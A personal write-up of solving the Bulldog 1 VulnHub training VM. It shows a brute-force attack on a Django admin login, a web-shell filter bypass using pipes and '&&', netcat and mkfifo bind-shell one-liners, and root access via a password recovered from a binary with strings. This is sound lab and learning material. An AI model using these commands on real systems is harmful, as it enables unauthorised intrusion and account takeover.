






## Bulldog 1 VulnHub VM walkthrough

This is my detailed step-by-step writeup about how I solve __Bulldog 1__  challenge. It's a boot-to-root VM machine available at https://www.vulnhub.com/entry/bulldog-1,211/, made by Nick Frichette (frichetten.com, https://twitter.com/frichette_n) Difficulty level is Beginner/Intermediate. 

It was very interesting and challenging, thank you Nick for a lot of fun I had while hacking Bulldog! :)

## Objective

__Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :)__

__This is a standard Boot-to-Root. Your only goal is to get into the root directory and see the congratulatory message, how you do it is up to you!__

__Difficulty: Beginner/Intermediate, if you get stuck, try to figure out all the different ways you can interact with the system. That's my only hint ;)__

## Solution

Solving challenges like this one requires to do couple of steps, like in penetration test, bug bounty or CTF. Or breaking into the real system, but it's illegal, so... don't do this :)

Those steps are (typicaly):

- recon phase - here we are going to reveal as many details about the target as possible - operationg system used, opened ports and services working, what's available and what can be filtered/blocked and so on

- exploitation phase - when we get all information we need from the previous phase, now it's time to identify weaknesses and try to actively exploit them. This includes exploits for identified services, exploiting any found web applications flaws (if web applications were found), maybe dictionary or bruteforce attacks on services allowing to log  into the system (like SSH, ftp and so on)

- escalating privileges - if we get our way into the system, now it's time to become more powerful than we are (except we were able to gain root in the previous step). So it's time to run some exploits or find some services which can be run with root privileges (TBH, I pretty suck at this phase, it's my weakest point at the moment :) )

- maintain access - although it's not our primary target when doing VM challenge, it's worth to mention that when we end up with full access into attacked machine, it's always good to leave a way to get back.


Ok, let's hack Bulldog then!


## Phase 1. Recon

When I run Bulldog, it get IP address from DHCP server (was 192.168.1.158 for me, it can be different for your network). First, I've opened web browser to see if there is some website available on standard ports like 80 or 443.


http://192.168.1.158/notice/ leads to page where Bulldog Industries company explains they were hacked and they are doing all to get recovered as soon as possible. Quick look at ```robots.txt``` reveals that hackers weren't joking:

```

  ________                                       _________.__                  .__                     .___
 /  _____/  ___________  _____ _____    ____    /   _____/|  |__   ____ ______ |  |__   ___________  __| _/
/   \  ____/ __ \_  __ \/     \\__  \  /    \   \_____  \ |  |  \_/ __ \\____ \|  |  \_/ __ \_  __ \/ __ | 
\    \_\  \  ___/|  | \/  Y Y  \/ __ \|   |  \  /        \|   Y  \  ___/|  |_> >   Y  \  ___/|  | \/ /_/ | 
 \______  /\___  >__|  |__|_|  (____  /___|  / /_______  /|___|  /\___  >   __/|___|  /\___  >__|  \____ | 
        \/     \/            \/     \/     \/          \/      \/     \/|__|        \/     \/           \/ 
			  ___ ___                __     ___________                    
			 /   |   \_____    ____ |  | __ \__    ___/___ _____    _____  
			/    ~    \__  \ _/ ___\|  |/ /   |    |_/ __ \\__  \  /     \ 
			\    Y    // __ \\  \___|    <    |    |\  ___/ / __ \|  Y Y  \
			 \___|_  /(____  /\___  >__|_ \   |____| \___  >____  /__|_|  /
			       \/      \/     \/     \/              \/     \/      \/ 

						You got owned

```

(BTW, nice ASCII tho ;) )

No other content were found, so it's time for quick ```nmap``` scan:

```
$ nmap -p- -A -sV 192.168.1.158

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-01 19:08 GMT
Nmap scan report for 192.168.1.158
Host is up (0.0030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (EdDSA)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ugh, not so many services running. Only WSGI server (so we are dealing with some Python web application probably) and SSH runs on port 23 instead of standard 22. Ok, let's take a look at web content then. First, using fantastic ```wfuzz``` HTTP fuzzer we are going to find some files and/or folders on web server (_Raft_ dictinaries come from absolutely must-to-have dictionaries from Daniel Miessler's https://github.com/danielmiessler/SecLists repository):

```
$ wfuzz -c --hc 000,400,404,405 -w ~/hacking/dictionaries/SecLists/Discovery/Web_Content/raft-large-words.txt http://192.168.1.158/FUZZ

(...)

000004:  C=301      0 L	       0 W	      0 Ch	  "admin"
000237:  C=301      0 L	       0 W	      0 Ch	  "dev"
002047:  C=301      0 L	       0 W	      0 Ch	  "notice"
```

Hmm, that's still not much. ```notice``` we already visit, let's see what's under http://192.168.1.158/dev/



Here we can find a little bit more information. First, we know that we are dealing with Django web application (so it's Python indeed). Second, we have contact details for some Bulldog IT departament employees. We will use them in the next phase. Also, there is a link to http://192.168.1.158/dev/shell/ page, but it's hidden behind some kind of authentication:


The most interesting is http://192.168.1.158/admin/ though, which gives us something really juicy - publicly available Django administartion panel login form. As this seems as the only way to get into the system, let's try to break it.

## Phase 2. Exploitation

To log into revealed admin panel, we need at least one valid username and then we can try bruteforce or dictionary attack on his/her password, but __only if__ login form allow us to do so. This form contains CSRF token, but from some me reasons this token seemed to be the same all the time and there is no block after some unsuccessful login attempts. That makes this form an excellent target (weak CSRF protection as well as username/password enumeration allowed).

Let's prepare usernames list first. From previusly revealed http://192.168.1.158/dev/ page, I've extracted all employees emails and created ```usernames.txt``` file with two lists - one contains only names and one contains emails:

```
alan@bulldogindustries.com
william@bulldogindustries.com
malik@bulldogindustries.com
kevin@bulldogindustries.com
ashley@bulldogindustries.com
nick@bulldogindustries.com
sarah@bulldogindustries.com
alan
william
malik
kevin
ashley
nick
sarah
```

The reson for that was because in the real world we can found three main types of usernames used for login into the system(s):

- username as one, single word, ususally it's firstname, lastname, handle or combination of them (alan, alansmith, asmith and so on)
- email address (very common)
- numeric ID (like SAP identifier, popular mostly as username for internal corporate services and networks)

As third type was very unlikely here, I've focused on first and second. After couple of login attempts in the browser to identify valid HTTP request I will have to use as my payload, I decided to perform dictionary attack using  __patator__ and its __http_fuzz__ module (https://github.com/lanjelot/patator):

```
./patator.py http_fuzz url=http://192.168.1.158/admin/login/?next=/admin/ method=POST body='csrfmiddlewaretoken=qysK0WgpDaoRfbU2MH1Lqdrkjf9mD4xU&username=FILE0&password=FILE1&next=/admin/' 0=/Users/bl4de/playground/VulnHub/buldog-usernames.txt 1=/Users/bl4de/hacking/dictionaries/passwords_2454.txt header="Cookie: csrftoken=qysK0WgpDaoRfbU2MH1Lqdrkjf9mD4xU" -x ignore:fgrep="Please enter the correct username and password for a staff account."
``` 

After thousands of attempts, one combination of username and password was found (with username __nick__ and password __bulldog__):

```
22:45:54 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2017-12-01 22:45 GMT
22:45:54 patator    INFO -
22:45:54 patator    INFO - code size:clen       time | candidate                          |   num | mesg
22:45:54 patator    INFO - -----------------------------------------------------------------------------
23:00:34 patator    INFO - 302  584:-1         0.542 | nick:bulldog                       | 12650 | HTTP/1.0 302 FOUND
23:05:16 patator    INFO - Hits/Done/Skip/Fail/Size: 1/17178/0/0/17178, Avg: 14 r/s, Time: 0h 19m 21s
```

And it was valid:


But it wasn't what I was expected. __Nick__ wasn't able to do even a single thing in admin panel. I was expecting that I'll be able to use some features like file upload (and upload a shell) or maybe edit website directly in the panel and add some ```os.system()``` call.

Then, I remembered something - web shell under http://192.168.1.158/dev/shell/:



__Bingo!!!__ 


But it wasn't fully funcional shell as I thought, only couple of commands were available and every attempt to use any other command or split commands with eg. ```;``` finished with sad message that I was caught:




But there was one thing: I found that I can bypass this using ```|``` (pipe) or  ```&&``` operators:



That was almost all I needed!
But I needed better interaction with this shell. How about ```nc``` (netcat)? Here's the simplest way to get a shell on remote system:

```
$ nc -l 8888 -e /bin/sh
```

This command tells ```nc``` to open listening connection on port 8888, and when someone will try to connect on this port, execute (```-e```) ```/bin/sh```, which technically means run shell on this port.

Unfortunately, this did not work and every try crashed web server and get me HTTP 500 (Internal Server Error) response, when I tried to run this command:


... I ended up with this message:


Ok, so what we can do about this?


First, let's try to confirm if ```nc``` is working on this server. To do this, I've opened listening connection on my machine first:

```
$ nc -l 8888
```

Then, I've created something which should give me some result if ```nc``` was available on the Bulldog (192.168.1.2 is an IP address of my machine):


I hit 'Run' and... bam!



Great, so ```nc``` is working fine. Let's try something different then. We can use pipes and input/output redirections with this command:

```
$ mkfifo backpipe && nc -l 8888 0<backpipe | /bin/bash > backpipe
```

Here you can find more details about ```mkfifo``` command: http://man7.org/linux/man-pages/man3/mkfifo.3.html

I've put the command into web form, hit 'Enter' and... it worked :) No HTTP 500. Browser was just waiting for response from the server. Next step was to connect with Bulldog on port 8888 to see if we get the shell:


Yes, we were in!!!
Now, let's just tweak up our shell a little bit with this nice Python oneliner, which literally spawn /bin/bash as the new process:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Much nicer, isn't it? :)




Ok, now, when we have a proper shell, it's time for the next phase.


## Phase 3. Escalating privileges (and get the flag)

Bulldog VM description mentions that there is a file we need to read to finish this challenge and, obviously, it's in the ```/root``` folder. We get access as ```django``` user, we don't know our password to run commands with ```sudo```. Let's try to see are there any other users on this machine:


Ok, so we can see there is ```bulldogadmin``` user. Take a look at her/his ```home``` folder:


```
django@bulldog:/home/django/bulldog$ ls -l /home/bulldogadmin
ls -l /home/bulldogadmin
total 0
django@bulldog:/home/django/bulldog$
```

Hmmm, not what we expected. Maybe there is something interesting in ```.bashrc``` or ```.bash_profile```? Let's see all hidden files then:


```
django@bulldog:/home/django/bulldog$ ls -lA /home/bulldogadmin
ls -lA /home/bulldogadmin
total 32
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 22:39 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24 22:39 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24 22:40 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25 03:18 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 22:39 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25 03:18 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 22:45 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 23:20 .wget-hsts
django@bulldog:/home/django/bulldog$
```

Oh, that's interesting :) ```.hiddenadmindirectory``` ? Let's take a look at it then:

```
django@bulldog:/home/django/bulldog$ ls -lA /home/bulldogadmin/.hiddenadmindirectory
</bulldog$ ls -lA /home/bulldogadmin/.hiddenadmindirectory
total 16
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26 03:18 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21 00:44 note
django@bulldog:/home/django/bulldog$
```

```customPermissionApp``` sounds very, very juicy. However, any attempt to run it didn't get us to the final solution:

```
django@bulldog:/home/django/bulldog$ cd /home/bulldogadmin/.hiddenadmindirectory
</bulldog$ cd /home/bulldogadmin/.hiddenadmindirectory
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ./customPermissionApp
<gadmin/.hiddenadmindirectory$ ./customPermissionApp
bash: ./customPermissionApp: Permission denied
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

Damn. Maybe there is something in this ```note``` file in the same directory?

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note
cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not!

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

Oh, so Ashley (remember http://192.168.1.158/dev/ page? Ashley is one of Bulldog's new Back End developers) left a message for Nick, her colleague (which credentials we've found and use to break into Bulldog server). Not many technical details tho, but Ashley mentioned it's a prototype. So maybe she made some mistakes, or maybe she left something in the source code - some valuable comment, hardcoded credentials, debug informations - anything?

Let's try with ```strings``` command (https://linux.die.net/man/1/strings). This command prints the printable character sequences that are at least 4 characters long (found in a binary file). The output is quite long, so I've cut it for better readibility:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ strings customPermissionApp
<gadmin/.hiddenadmindirectory$ strings customPermissionApp
/lib64/ld-linux-x86-64.so.2
32S0-t
libc.so.6
puts
__stack_chk_fail
system
__libc_start_main
__gmon_start__
GLIBC_2.4
GLIBC_2.2.5
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
dH34%(
AWAVA
AUATL
[]A\A]A^A_
Please enter a valid username to use root privileges
	Usage: ./customPermissionApp <username>
sudo su root
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
(...)
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$

```

There are couple of very interesting lines here:

```
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
dH34%(
AWAVA
AUATL
```

It's somehow obfuscated, however it's hard not to spot some readable content here. If we extract lines starting from ```SUPER``` up to one ends up with ```get```, remove ```H``` at the end of each line and put the rest together, we end up with something which sounds quite like legitimate one:

```
SUPERultimatePASSWORDyouCANTget
```

Let's try then:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ./customPermissionApp SUPERultimatePASSWORDyouCANTget
<ry$ ./customPermissionApp SUPERultimatePASSWORDyouCANTget
bash: ./customPermissionApp: Permission denied
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ su ./customPermissionApp
<gadmin/.hiddenadmindirectory$ su ./customPermissionApp
No passwd entry for user './customPermissionApp'
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ su ./customPermissionApp SUPERultimatePASSWORDyouCANTget
<ry$ su ./customPermissionApp SUPERultimatePASSWORDyouCANTget
No passwd entry for user './customPermissionApp'
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ./customPermissionApp django
<gadmin/.hiddenadmindirectory$ ./customPermissionApp django
bash: ./customPermissionApp: Permission denied
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ./customPermissionApp django SUPERultimatePASSWORDyouCANTget
<ry$ ./customPermissionApp django SUPERultimatePASSWORDyouCANTget
bash: ./customPermissionApp: Permission denied
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

Ugh, that seems not working :/

But maybe the password itself is correct? Let's try to use it for ```django``` user with ```sudo```:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo ls -lA /root
sudo ls -lA /root
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

total 28
-rw------- 1 root root  378 Sep 21 00:46 .bash_history
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  288 Sep 21 00:41 congrats.txt
drwxr-xr-x 2 root root 4096 Aug 24 22:45 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Aug 24 23:30 .selected_editor
-rw------- 1 root root 1065 Sep 21 00:44 .viminfo
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

Yes, it's the correct password! Now, for __The Grande Finale__ and to confirm that password for ```django``` is indeed correct, the last step will be to use credentials of ```django``` user, login to Bulldog machine directly and read content of ```/root/congrats.txt``` file:


## Wrap-up

__Bulldog1__ was a very fun challenge. This writeup does not show how much time I've spent looking for anything valuable when I finally get the shell (as I mentioned at the beginning, I pretty suck at Linux exploitation and privilege escalation). And that's why I find challenges like VM boot-to-root very valuable - they are perfect way to gain new skills (or sharpen those we've already have), learn how to use new tools or how to improve remote access you get.

Feel free to ping me on Twitter (https://twitter.com/_bl4de) or via Gmail (bloorq at gmail.com) if you have any questions or feedback. Meanwhile, I am going to take a look at __Zico2__ by Rafael Santos (https://twitter.com/rafasantos5) available at https://www.vulnhub.com/entry/zico2-1,210/.

Stay tuned :)

Happy Hacking!

bl4de

